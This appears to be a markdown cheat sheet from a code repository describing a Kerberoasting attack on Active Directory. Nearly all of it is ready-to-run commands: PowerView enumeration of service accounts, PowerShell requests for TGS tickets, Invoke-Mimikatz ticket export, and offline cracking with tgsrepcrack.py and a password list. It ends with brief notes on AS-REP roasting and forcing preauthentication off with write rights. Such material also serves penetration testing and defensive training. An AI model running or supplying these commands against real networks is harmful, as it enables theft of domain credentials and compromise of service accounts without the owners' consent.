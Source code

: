 ## <span style="color:lightgreen">PowerView</span>

### <span style="color:#F1C232">1. Find user accounts used as Service account</span>

```powershell
Get-NetUser -SPN
Get-NetUser -SPN -Verbose | select displayname,memberof
```

## <span style="color:lightgreen">Cmdlet</span>

### <span style="color:#F1C232">2. Request TGS</span> 

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "spn-name-here"
```

### <span style="color:#F1C232">3. Check if the TGS has been granted</span>

```powershell
klist
```


## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">4. Export all the tickets</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```


## <span style="color:lightgreen">tgsrepcrack</span>

### <span style="color:#F1C232">5. Crack the Hash</span>

```console
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\file-name-which-got-exported.kirbi
```

# <span style="color:lightblue">AS-REPs</span>

-   If a user's **UserAccountControl** settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.
-   With sufficient rights (**GenericWrite** or **GenericAll**), Kerberos preauth can be forced disabled as well.
